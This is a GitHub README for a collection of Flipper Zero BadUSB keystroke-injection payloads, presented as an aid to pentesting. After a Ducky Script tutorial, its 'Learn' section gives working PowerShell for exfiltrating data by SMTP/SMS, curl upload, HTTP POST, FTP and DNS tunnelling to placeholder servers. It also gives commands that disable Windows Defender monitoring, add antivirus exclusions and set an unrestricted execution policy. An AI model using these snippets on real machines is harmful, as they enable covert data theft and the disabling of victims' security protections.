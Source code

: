 <div align="center">

  <img src="assets/logo.png" alt="logo" width="200" height="auto" />
  <h1>Flipper Zero BADUSB Repo</h1>
  
  <p>
    A Collection of Flipper Zero BADUSB Payloads
  </p>
</div>

<br />

<!-- Table of Contents -->
# Table of Contents 📒

- [About the Project](#about-the-project-🌟)
  * [Rubber Ducky](#rubber-ducky-🥚)
  * [Shop](#shop-🛍️)
- [Getting Started](#getting-started-🧰)
  * [Variables](#variables-🗝️)
  * [Installation](#installation)
  * [Deployment](#deployment-🚩)
  * [Learn](#learn-🎓)
- [Roadmap](#roadmap-🧭)
- [Contact](#contact-🤝)
- [Acknowledgements](#acknowledgements-💎)

  

<!-- About the Project -->
## About the Project 🌟
This Repository is to assist others in their pentesting adventures in addition to helping those get their feet wet for Ducky Scripts 🐥

<!-- Rubber Ducky -->
### Rubber Ducky 🥚
A USB Rubber Ducky is a keystroke injection tool that looks like a USB flash drive. When plugged in, it executes pre-programmed scripts that mimic keyboard input, allowing for quick automation of tasks such as penetration testing and security assessments.

## Shop 🛍️
<details>
  <summary>Hak5</summary>
  <ul>
    <li><a href="https://shop.hak5.org">Hak5 Shop</a></li>
    <li><a href="https://shop.hak5.org/products/usb-rubber-ducky">Rubber Ducky</a></li>
    <li><a href="https://payloadhub.com/blogs/payloads">Hak5's Payload Hub</a></li>
    <li><a href="https://docs.hak5.org/hak5-usb-rubber-ducky">Official Ducky Script Documentation</a></li>
  </ul>
</details>

<details>
  <summary>Flipper Zero</summary>
  <ul>
    <li><a href="https://shop.flipperzero.one">Flipper Zero Shop</a></li>
    <li><a href="https://docs.flipper.net/bad-usb">Flipper Zero's Badusb Documentation</a></li>
  </ul>
</details>

<details>
<summary>Digispark</summary>
  <ul>
    <li><a href="https://www.amazon.com/digispark/s?k=digispark">Amazon Digispark</a></li>
    <li><a href="https://blog.spacehuhn.com/badusb-digispark">Digispark Badusb</a></li>
    <li><a href="https://github.com/CharlesTheGreat77/DigiPass">Digispark Badusb Payloads</a></li>
  </ul>
</details>

<details>
<summary>External Flipper Resources</summary>
  <ul>
    <li><a href="https://github.com/jamisonderek">Mr. Derek Jamison</a></li>
  </ul>
</details>

<!-- Prerequisites -->
### Prerequisites 🚬
This project (and the Flipper Zero as a whole) uses *Ducky Script version 1*. Additionally, most payloads are tested in a *Windows 10* environment. Further testing will be needed on *Windows 11* environment security standards.

<!-- Getting Started -->
## Getting Started 🧰
This is a VERY brief explanation of ducky script in my own words. One may refer to this <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">link</a> if in doubt of supported commands.
<details>
    <summary>REM</summary>
  <ul>
    <li>REM is used as a comment, and does not perform ANY keystroke injection. It got the name REM from the word REMark (remark).</li>
  </ul>
  <pre><code>REM This is a comment</code></pre>
</details>

<details>
    <summary>STRING</summary>
  <ul>
    <li>STRING injects injects a series of keystrokes. Interpreting lowercase, uppercase, etc. automatically with Flipper Zero's implmentation.</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
  <ul>
    <li>we'll cover the ENTER command right after..</li>
  </ul>
</details>

<details>
    <summary>ENTER</summary>
  <ul>
    <li>ENTER does just that.. presses the return (enter) button! This is one of many supported commands which can be found <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a>!</li>
  </ul>
  <pre><code>STRING I Love You!
ENTER</code></pre>
  Output:
  <pre><code>I Love You!</code></pre>
</details>

<details>
    <summary>DELAY</summary>
  <ul>
    <li>DELAY creates a momentary pause in miliseconds. This is VERY useful when keystrokes are too fast for the target computer to interpret. If your working payload is failing.. this is probably the cause (ADD MORE DELAY).</li>
  </ul>
  <pre><code>STRING hey!
ENTER
DELAY 1000
STRING how are you?
ENTER
</code></pre>
  Output:
  <pre><code>hey!
[delays for 1 second]
how are you?</code></pre>
</details>

<details>
    <summary>Additional Commands</summary>
  <ul>
    <li>Modifiers: <pre><code>CTRL
CONTROL
SHIFT
ALT
GUI
WINDOWS</code></pre></li>
    <li>Combos: <pre><code>CTRL-ALT
CTRL-SHIFT
ALT-SHIFT
ALT-GUI
GUI-SHIFT</code></pre></li>
    <li>Cursors: <pre><code>DOWNARROW
DOWN
LEFTARROW
LEFT
RIGHTARROW
RIGHT
UPARROW
UP</code></pre></li>
    <li>Control and navigation: <pre><code>ENTER, BREAK, PAUSE, CAPSLOCK, DELETE, BACKSPACE, END, ESC, ESCAPE, HOME, INSERT, NUMLOCK, PAGEUP, PAGEDOWN, PRINTSCREEN, SCROLLOCK, SPACE, TAB, MENU, APP, SYSRQ</code></pre></li>
    <li>Functions: <pre><code>F1, F2, F3, F4, F5, F6, F7, F8, F9, F10, F11, F12</code></pre></li>
  </ul>
</details>

<details>
    <summary>Your first payload (Windows)</summary>
  <ul>
    <li>Lets create a simple payload to open notepad and display.</li>
  </ul>
  <pre><code>GUI r
STRING notepad.exe
ENTER
DELAY 2000
STRING hello world!
ENTER
</code></pre>
  Output: Opens the windows run box with GUI r [GUI is a modifier], and types in notepad.exe, which opens notetpad and types:
  <pre><code>hello world!</code></pre>
  <ul>
    <li>Again, you can find modifiers, combos, cursors, etc. <a href="https://gist.github.com/methanoliver/efebfe8f4008e167417d4ab96e5e3cac">here</a></li>
  </ul>
</details>



<!-- Variables -->
### Variables 🗝️
To run most scripts (outside of PlugNPlay folder), one must populate the variables inside the payload (.txt) file. All variables will be clearly stated with ```%CHANGE_ME%```

Examples:
```
discord_webook = %CHANGE_ME%
```
```
smtp_server = %CHANGE_ME%
```

<!-- Download -->
# Installation
<details>
    <summary>Install BADUSB Repository 🖥️</summary>
    <details>
        <summary>Windows Install 🪟</summary>
            <ul>
                <li>Download the zip and extract the contents in your preffered directory.</li>
            </ul>
            <ul>
                <img src="assets/download.png" alt="logo" width="auto" height="auto" />
            </ul>
    </details>
    <details>
        <summary>Linux Download 🖥️</summary>
        <ul>
            <li>In any terminal:</li>
            <pre><code>git clone https://github.com/CharlesTheGreat77/BADUSB</code></pre>
        </ul>
    </details>

</details>


<!-- Deployment -->
## Deployment 🚩

To deploy the payloads, one must edit the payload (if required) by changing the variables accordingly in the *.txt* file(s) of choice. 

Copy the payloads in the badusb folder in the flipper zero BADUSB directory.


<!-- Payload Development -->
## Learn 🎓
These are brief powershell concepts which covers just about whatever you need for red teaming.
<details>
    <summary>Exfiltration Methods</summary>
  <ul>
    <li>SMTP and/or SMS</li>
  </ul>

```powershell
$hello_world = "Hello World!" # exfiltrate data
$send_to = "%SEND_TO%" # could be the email used below, another email, or a phone number
$smtp_server = "%SMTP_SERVER%" # smtp.gmail.com
$smtp_username = "%SMTP_USERNAME%" # gmail account [example@gmail.com]
$token = "%TOKEN%" # gmail token/smtp password
$SMTPInfo = New-Object Net.Mail.SmtpClient($smtp_server, 587); $SMTPInfo.EnableSsl = $true; $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential($smtp_username, $token); $ReportEmail = New-Object System.Net.Mail.MailMessage; $ReportEmail.From = $smtp_username; $ReportEmail.To.Add($send_to); $ReportEmail.Body = "Flipper Report: $hello_world"; $SMTPInfo.Send($ReportEmail)
```
Phone Number Setup for *send_to* variable:
    
    Format: <phonenumber>@smsgateway
    example: 9992221111@tmomail.net
SMS Gateways for Service Providers can be found <a href="https://jagerpro.com/help-center/sms-and-mms-gateway-list/">here</a>!

  <ul>
    <li>File Transfer with curl:</li>
  </ul>

```powershell
curl.exe -F "file1=@filename.txt" <end_point>
```
  <ul>
    <li>HTTP POST request:</li>
  </ul>

```powershell
$content = Get-Content %FILE_TO_EXFIL% # output.txt
Invoke-WebRequest -Uri http://<http_server> -Method POST -Body $content
```
Exfiltrat files and send the contents via a HTTP post request.

  <ul>
    <li>HTTP POST request:</li>
  </ul>

  <ul>
    <li>FTP File Upload:</li>
  </ul>

```powershell
$fileName = "%FILENAME%"
$ftpUrl = "%FTP_URL%"
$ftpPassw = "%FTP_PASSWORD%"
$sampleData = "Sample data for exfiltration test"
Set-Content -Path $fileName -Value $sampleData
$creds = Get-Credential -Credential $ftpPassw
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile $fileName -Credential $creds
```
Upload files via FTP to an existing FTP server
  <ul>
    <li>Exfiltrate over DNS:</li>
  </ul>

```powershell
$dnsServer = "%DNS_SERVER%"
$exfiltratedData = "String of exfiltrated data"
$chunkSize = 63 # look at the sizes of record types
$encodedData = [System.Text.Encoding]::UTF8.GetBytes($exfiltratedData)
$encodedData = [Convert]::ToBase64String($encodedData)
$chunks = $encodedData -split "(.{$chunkSize})"
foreach ($chunk in $chunks) {
    $dnsQuery = $chunk + "." + $dnsServer
    Resolve-DnsName -Name $dnsQuery
    Start-Sleep -Seconds 5
}
```
</details>

<details>
    <summary>ExecutionPolicy/AV</summary>
    <ul>
        <li>Disable Real Time Monitoring, Behavior Monitoring etc:</li>
    </ul>

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -DisableScriptScanning $true -DisableBehaviorMonitoring $true -DisableIOAVProtection $true -DisableIntrusionPreventionSystem $true
```

Admin Privileges is Required.

```powershell
powershell "Start-Process powershell -verb runas"
```

Can open powershell as admin.

  <ul>
    <li>Set Exclusive Path:</li>
  </ul>

```powershell
Add-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy unrestricted
```
To restrict the path back to normal:
```powershell
Remove-MpPreference -ExclusionPath %PATH% ; Set-ExecutionPolicy restricted
```

</details>

<!-- Roadmap -->
## Roadmap 🧭

* [ ] Update Learn section in README
* [ ] Update filesystem hierarchy
* [ ] Update Payload list

<!-- Contact -->
## Contact 🤝

Dicord: DoobTheGoober

Projects: [github](https://github.com/CharlesTheGreat77)


<!-- Acknowledgments -->
## Acknowledgements 💎
I want to give some honor to specific individuals regardless of contribution for payload creation or sheer knowledge and motivation!

 - [Rocket God](https://github.com/RocketGod-git)
 - [Kavitate](https://github.com/Kavitate)
 - [Derek Jamison](https://github.com/jamisonderek)
 - [Redd](https://github.com/InfoSecREDD)
